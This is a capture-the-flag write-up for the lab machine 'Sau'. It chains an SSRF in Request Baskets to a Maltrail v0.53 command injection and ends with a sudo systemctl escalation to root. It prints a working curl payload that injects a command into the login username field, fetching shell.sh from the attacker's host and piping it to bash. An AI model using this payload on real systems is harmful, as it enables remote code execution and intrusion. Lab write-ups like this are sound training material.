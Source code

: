 # Sau

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.22.88       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:15 +08
Nmap scan report for 10.129.22.88
Host is up (0.24s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Port 80 is being filtered, while port 55555 is open.&#x20;

### Request Baskets SSRF --> Mailtrail RCE

Port 55555 hosted an application that is able to collect and inspect HTTP requests:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can create one by clicking on create:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Tihs acts similar to a webhook, and is able to retrieve requests sent to that unique URL.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We are able to set the Responses from the website. as well as where the traffic is being forwarded to, just like we can with Webhooks. Setting the Forward URL to our own HTTP server results in requests being sent there from the machine.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Since port 80 was being filtered, we can set it to `http://localhost` and try setting all the options to True. Afterwards, sending GET requests to our bucket would result in HTML being returned:

```
$ curl http://10.129.22.88:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
<TRUNCATED>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

At the bottom, we can see that port 80 has Mailtrail v0.53 running, which is vulnerable to an unauthenticated RCE exploit.

{% embed url="https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/" %}

To exploit this, we just need to change the forward URL to `http://127.0.0.1/login` and send a POST request via `curl` with a payload like this:

{% code overflow="wrap" %}
```bash
$ curl -X POST --data 'username=;`curl 10.10.14.31/shell.sh|bash`' http://10.129.22.88:55555/test
```
{% endcode %}

We would get a reverse shell as `puma`:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Systemctl --> Root

The user is able to run a command using `sudo`:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This is easily exploitable to get a `root` shell:

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
